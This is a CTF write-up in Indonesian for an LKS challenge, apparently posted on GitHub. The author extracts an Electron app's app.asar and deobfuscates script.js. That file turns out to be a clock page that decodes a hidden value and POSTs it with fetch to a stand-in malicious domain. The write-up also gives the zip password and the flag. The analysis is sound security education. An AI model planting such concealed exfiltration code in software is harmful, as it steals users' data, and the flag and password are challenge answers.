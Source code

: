 ![Pasted image 20240706012122](https://github.com/adh1ka/ctf-writeup2024/assets/135927661/4fc2a0ca-9539-4289-8512-9f3743d8acd2)

Dari deskripsinya, kita mendapatkan informasi bahwa chall ini berupa client-side web yang dicompile menjadi windows executable. Langsung saja kita kerjakan.

Unzip terlebih dahulu file dengan password yang tersedia yaitu

```
LKS_s3cur3_p4$$w0rdzz$!
```
![Pasted image 20240706012641](https://github.com/adh1ka/ctf-writeup2024/assets/135927661/692e4ab7-e0d3-4f02-a534-e2bc77ead911)

Berikut adalah isinya, terdapat banyak file yang menurut saya agak asing. Terdapat juga 2 folder, di dalam folder resources terdapat file app.asar. Saya coba untuk search di google tentang ‘reverse engineering app.asar’ barangkali menemukan case serupa.

![Pasted image 20240706013037](https://github.com/adh1ka/ctf-writeup2024/assets/135927661/e53640fc-8132-4622-ad4b-1f2180229fc7)

Ternyata, app.asar merupakan electron js, saya pun membuka salah satu dari artikel diatas yaitu https://medium.com/@libaration/decompiling-and-repacking-electron-apps-b9bfbc8390d5.

Dari artikel tersebut, terdapat cara melakukan decompile terhadap app.asar.

![Pasted image 20240706013258](https://github.com/adh1ka/ctf-writeup2024/assets/135927661/cc514de3-89c1-4c18-a441-f8c8c4ba4b69)

```
npx asar extract app.asar <unpackedasar>
```
![Pasted image 20240706013442](https://github.com/adh1ka/ctf-writeup2024/assets/135927661/79dc322b-fe86-484d-8cbf-6d89e5958e81)


Tidak ada yang terlihat mencurigakan di dalam file index.js maupun index.html. Namun di dalam script.js terlihat program yang diobfuscate.

![Pasted image 20240706013719](https://github.com/adh1ka/ctf-writeup2024/assets/135927661/45c30415-e0ca-4fcb-a246-b9a6f85e55e2)

Mari kita lakukan deobfuscate di https://obf-io.deobfuscate.io/.

Berikut hasil decompilenya

```
function getTime() {
  time = new Date().toLocaleTimeString();
  document.body.innerHTML = time;
}
setInterval(getTime, 0x3e8);
var arr = [0x4c, 0xdb, 0xf8, 0x84, 0x99, 0xe9, 0x4b, 0x8e, 0x94, 0x72, 0xbc, 0x36, 0x53, 0x35, 0x3e, 0x4a, 0xcb, 0x59, 0x7b, 0x1, 0x3, 0x48, 0x29, 0x62, 0x6d, 0xac, 0x33, 0x77, 0x16, 0xd6, 0x61, 0x8d, 0xe0, 0xf6, 0xa0, 0xd0, 0x6c, 0x3b, 0x10, 0x31, 0xcb, 0x83, 0x69, 0xdd, 0x3a, 0x9, 0x78, 0x21, 0x63, 0xde, 0x77, 0x1b, 0xdc, 0xb0, 0x69, 0xf7, 0x12, 0x5e, 0xd, 0x2e, 0x30, 0x6c, 0x1, 0x7d, 0xbe, 0x8b, 0x75, 0x82, 0x57, 0xae, 0x30, 0x1d, 0x73, 0x6d, 0x4b, 0x6c, 0x6, 0xcb, 0x5f, 0x4a, 0x26, 0x4, 0xe, 0x29, 0x63, 0xab, 0x21, 0x21, 0xb8, 0xbd, 0x6c, 0x23, 0x56, 0xba, 0x4f, 0xa8, 0x30, 0x85, 0x2a, 0xe7, 0x7b, 0xef, 0x63, 0xe9, 0x0, 0x41, 0xb2, 0x7c, 0x6b, 0xa0, 0x75, 0x14, 0x7d, 0x53, 0x3f, 0x7f, 0x65, 0x7b, 0xb, 0xae, 0x7d, 0xa, 0xd6, 0xff, 0x60, 0x4];
var data = '';
for (var i = 0x0; i < arr.length; i++) {
  if (i % 0x6 == 0x0) {
    data += String.fromCharCode(arr[i]);
  }
}
var flag = {
  'lksflag': data
};
fetch('https://malicious-lksn-surabaya-domain.co.id', {
  'method': 'POST',
  'headers': {
    'Content-Type': "application/json"
  },
  'body': JSON.stringify(flag)
}).then(_0x375525 => {});
```

Dari program tersebut, dapat kita lihat bahwa flag diambil dari ‘data’ yang mana ‘data’ tersebut mengambil dari array ‘arr’. Saya pun mencoba untuk menjalankannya di console browser firefox.
![Pasted image 20240706014318](https://github.com/adh1ka/ctf-writeup2024/assets/135927661/16ebf405-1fea-4c9c-8922-92147550c8a4)



Dan voila, kita dapatkan flagnya yaitu

```
LKS{malici0us_cl0ck?}
```

